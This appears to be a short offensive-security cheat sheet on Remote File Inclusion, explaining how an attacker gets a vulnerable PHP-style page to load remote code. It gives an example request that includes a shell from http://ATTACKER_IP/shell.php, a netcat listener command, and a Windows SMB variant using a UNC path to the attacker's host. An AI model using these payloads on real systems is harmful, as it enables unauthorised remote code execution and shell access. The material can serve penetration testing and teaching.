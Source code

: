 # Remote File Inclusion (RFI)

##Allows an attacker to inject external URL in a vulnerable backend PHP/Python/etc. function.

### Example: 

#### 1: Host payload in an http server then setup a listener.

#### 2: http://site.com/index.php?file=http://ATTACKER_IP/shell.php

#### 3: Enjoy your shell!

### TIP: If you detect an LFI vulnerability on a windows host, try to check if you can send files over SMB to the server like:

#### 1) nc -lvnp PORT (Setup listener)

#### 2) http://site.com/index.php?file=\\ATTACKER_IP\\FILE.php
